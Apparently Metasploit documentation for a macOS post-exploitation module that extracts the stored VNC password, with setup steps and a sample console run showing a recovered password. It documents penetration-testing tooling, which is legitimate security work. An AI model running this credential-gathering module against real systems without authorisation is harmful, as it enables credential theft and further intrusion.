This module show Apple VNC Password from Mac OS X High Sierra.

## Vulnerable Application

  * macOS 10.13.6*


## Verification Steps

  Example steps in this format (is also in the PR):

  1. Start `msfconsole`
  2. Do: `osx/gather/vnc_password_osx`
  3. Do: set the `SESSION [ID]`
  4. Do: ```run```
  5. You should get the password


## Scenarios

  Typical run against an OSX session, with the vnc service activated:

```
msf5 exploit(multi/handler) > use osx/gather/vnc_password_osx
msf5 post(osx/gather/vnc_password_osx) > set SESSION 1
SESSION => 1
msf5 post(osx/gather/vnc_password_osx) > exploit

[*] Running module against MacBook-Pro.local
[*] This session is running as root!
[*] Checking VNC Password...
[+] Password Found: PoCpassw
[*] Post module execution completed
msf5 post(osx/gather/vnc_password_osx) >
```
